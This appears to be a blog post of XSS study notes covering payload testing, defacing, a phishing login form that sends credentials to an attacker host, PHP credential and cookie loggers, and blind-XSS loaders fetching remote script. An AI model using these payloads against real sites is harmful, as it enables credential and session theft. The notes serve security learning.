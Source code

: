 ```yaml
---
layout: post
title: XSS
date: 2024-02-20 11:39 +0000
---
```


## Types of XSS
| Type                           | Description                                                                                                                                                                                                                                  |
|--------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Stored (Persistent) XSS        | The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)                                                                                   |
| Reflected (Non-Persistent) XSS | Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)                                                                                 |
| DOM-based XSS                  | Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags) |

## Stored XSS

The stored xss is the most critical because it is persistent and normally executed by anyone who is rendering the webpage.
Some basic payloads to test for XSS are:
- `<plaintext>`
- `<script>print()</script>`
- `<script>alert(window.origin)</script>`

To access aa cookie we can use the following payload: `<script>alert(document.cookie)</script>`

## Reflected XSS

The reflected XSS vulnerability its normally processed by the server and returned in form of an error for example.
Its is not persistent and to target a user we simply send the url the reproduces the exploit.

## DOM-based XSS

The DOM-based XSS its a client side not persistent vulnerability that its presented in the javascript code that uses the user input to show some content in the webpage.
If it is not sanitized and placed directly it can create a DOM-based XSS. 

Some of the commonly used **JavaScript** functions to write to DOM objects are:

- `document.write()`
- `DOM.innerHTML`
- `DOM.outerHTML`

Furthermore, some of the **jQuery** library functions that write to DOM objects are:

- `add()`
- `after()`
- `append()`

The innerHTML function does not allow the use of `<script>` so we need to execute a different payload:

```html
<img src="" onerror=alert(window.origin)>
```

In order to use the vulnerability with any user we need to share the URL.

## Automated Discovery 

We can use open source tools to help us in discovery XSS vulnerabilities. 
They can either execute a **passive scan** which will scan form DOM-based vulnerabilities using the javascript source code or **active scan** which will try different payloads and check if the rendered page has the payload inserted.

Some of the tools are:
- [XSS Strike](https://github.com/s0md3v/XSStrike)
- [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS)
- [XSSer](https://github.com/epsylon/xsser)

Wordlists:
- [Payloadallthings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
- [payloadbox](https://github.com/payloadbox/xss-payload-list)


## Defacing

Defacing is a technique used to leverage the XSS vulnerability found and change the contents of a webpage.
Defacing is widely used by hackers to announce that they hack a certain website.
When a stored XSS vulnerability is found a couple of elements we can use in our payload to change the webpage:
- Background Color `document.body.style.background`
- Background `document.body.background`
- Page Title `document.title`
- Page Text `DOM.innerHTML`

An example would be: `<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>`

## Phishing 

Another common use of XSS vulnerabilities is phishing. Once a XSS vulnerability is found, an attacker can rebuild the website and create a fake login redirecting the credentials to a server he controls. The steps to achieve that are:
- XSS Discovery: Using the tools we have tried we discover a XSS vulnerability.
- Login form injection: Create a fake login form that sends the requests to a server. We can use `document.write()` for this.

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

- cleanup the webpage: We want the user to focus on the login page, so we remove the rest of the functionality with `document.getElementById('urlform').remove();`. We can use the `Page Inspector Picker` to get the id.

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

- Credential stealing: In order to receive the request we can setup a simple netcat listener, `sudo nc -lvnp 80`, or develop a simple php server that receives the request, save the credentials in a file and then redirects to the webpage.

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi index.php #at this step we wrote our index.php file
sudo php -S 0.0.0.0:80
```

## Hijacking Session 

The same way we get the user credentials we can steal a cookie after finding a XSS vulnerability.
To do so we have a couple prebuilt exploits here: [](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc).

However in some cases we don't have access to some platforms/pages and we can confirm that our exploit work. 
That's called Blind XSS. In addition to that we can have multiple inputs that we want to test and to know what are vulnerable we need to find strategies.
One of them is to specify in the exploit the input id or a reference to the input we are trying to exploit.
Example: 
```javascript
<script src="http://YOUR_IP/username"></script>
<script src="http://YOUR_IP/name"></script>
```

Exploits we can try, here: [](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss)

```html
<script src=http://10.10.15.79:9000/name></script>
'><script src=http://10.10.15.79:9000/username></script>
"><script src=http://10.10.15.79:9000/profilepic></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

```
"><script src=http://10.10.15.79:9000/script.js></script>
```

Once we found the input, we just need to start the php server and send an exploit that grabs the user cookie.

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Exploits:
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```
